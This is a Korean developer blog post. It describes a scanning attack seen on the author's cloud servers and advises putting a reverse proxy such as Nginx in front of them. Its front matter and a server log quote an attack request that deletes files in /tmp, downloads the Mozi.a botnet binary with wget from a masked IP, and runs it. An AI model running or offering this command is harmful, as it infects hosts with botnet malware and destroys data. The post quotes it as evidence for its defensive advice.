 ```yaml
---
layout: post
title: "자잘한 도움말 #11 이름 모를 외국인들에게 공격당함"
description: "프록시, 리버스 프록시, 웹 스캐닝, DDoS, Nginx, Vue Proxy, Proxy, Reverse Proxys, /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws, 해커맨, 웹 서버와 웹 어플리케이션 서버의 차이, 웹 서비스 구축 중 신경 써야할 보안 문제"
date: 2023-10-01 12:49:00 +0900
categories: [Micro]
---
```


## TL;DR

- 클라우드에 여러 서버 인스턴스를 열어 두었는데 수상한 접근 시도를 발견했다.

```
[Nest] 9095  - xx/xx/xxxx, x:xx:xx AM	[HttpFilter]
{
  "statusCode":404,
  "message":"Cannot GET /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws",
  "error":"Not Found"
}
hostname: xx.xxx.xxx.xx, addr: ::ffff:xx.xx.xx.xx
```

- 요청을 직접 받을 서버만 공개하고 리버스 프록시를 사용하자.
  - 보안 취약점을 제거할 수 있고, 모니터링할 포인터를 하나로 좁힐 수 있다.
  - 프론트엔드 프레임워크(Vue, React) 수준의 프록시 설정은 개발용 설정이다.
  - 배포 환경에서는 Nginx나 Apache 같은 웹 서버에서 프록시를 설정하자. 

----

## 이하 그리 중요하진 않은 내용들

### 험난한 정보의 바다

인터넷을 정보의 바다라고들 한다. 아마 한.. 30년 전부터.. 이젠 좀 삭았지만 나는 이 표현을 좋아한다. 겉으로 보기엔 평화롭고 풍요로워 보이는 수면 아래에 이런 상어들이 득실거리고 있다는 사실을 잘 나타내거든.

![경쟁상대](https://i.postimg.cc/jshdKXWs/image.png)  
{: .center .w-3-quarter}

특히 해커맨, 그들은 우리의 IP를 언제든지 알고 있다. 오늘은 외부 접속이 가능하도록 공개된 서버를 구축하는 중 내가 겪었던 일에 대해 코멘트를 달아보고자 한다. 쉘 환경에서 명령어를 입력한다던가, 코드를 수정한다던가, 운영체제의 설정 파일을 건드리는 내용은 아니다. 좀 더 이론 혹은 지침에 가까운 내용을 다뤄볼 계획이다. 

### 작년 이맘 때에...

당시 상황에 대해 먼저 정리해 보자. 크게 5개 요소로 이루어진 서비스를 구축해야 하는 상황이었다. 그중 하나는 사용자 로컬 PC에서 동작해야 하는 에이전트 프로그램이기 때문에 제외하고, 서버 인스턴스를 4개 제공받았다. 그림으로 그려볼까.

![대략적](https://i.postimg.cc/L4BGvRNM/briefarch.png)  
{: .center}
